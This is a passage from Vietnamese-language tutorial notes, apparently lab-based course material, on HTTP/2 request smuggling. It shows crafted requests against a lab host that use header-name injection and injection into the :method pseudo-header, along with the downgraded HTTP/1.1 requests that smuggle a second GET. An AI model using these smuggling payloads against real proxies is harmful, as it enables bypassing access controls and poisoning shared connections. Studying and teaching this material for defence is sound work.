 **Khi được chuyển sang HTTP/1.1:**
```
POST / HTTP/1.1
Host: http2.htb
Dummy: asd
Transfer-Encoding: chunked
Content-Length: 48

0
GET /smuggled HTTP/1.1
Host: http2.htb
```

**Phân tích:**
- Header `Transfer-Encoding` được thêm vào từ tên header bị chèn (`dummy`).
- Lỗ hổng **H2.TE** xảy ra tương tự như ví dụ trước.

### 3. Request Line Injection (Chèn dòng yêu cầu)

Do các **pseudo-header** trong HTTP/2 có thể được xử lý khác nhau, nếu proxy không kiểm tra các pseudo-header này, có thể dẫn đến Request Smuggling.

#### Ví dụ:

**HTTP/2 Request:**
```
:method POST / HTTP/1.1\r\nTransfer-Encoding: chunked\r\nDummy: asd
:path /
:authority http2.htb
:scheme http
0

GET /smuggled HTTP/1.1
Host: http2.htb
```

**Khi được chuyển sang HTTP/1.1:**
```
POST / HTTP/1.1
Transfer-Encoding: chunked
Dummy: asd / HTTP/1.1
Host: http2.htb
Content-Length: 48

0
GET /smuggled HTTP/1.1
Host: http2.htb
```

**Phân tích:**
- Proxy xử lý pseudo-header `:method` sai, dẫn đến việc tạo ra một request độc hại.
- Request tiếp theo `GET /smuggled HTTP/1.1` bị xử lý ngoài ý muốn, gây ra Request Smuggling.

---
# 2. Các Cuộc Tấn Công HTTP trong Triển Khai Ứng Dụng Web Thực Tế
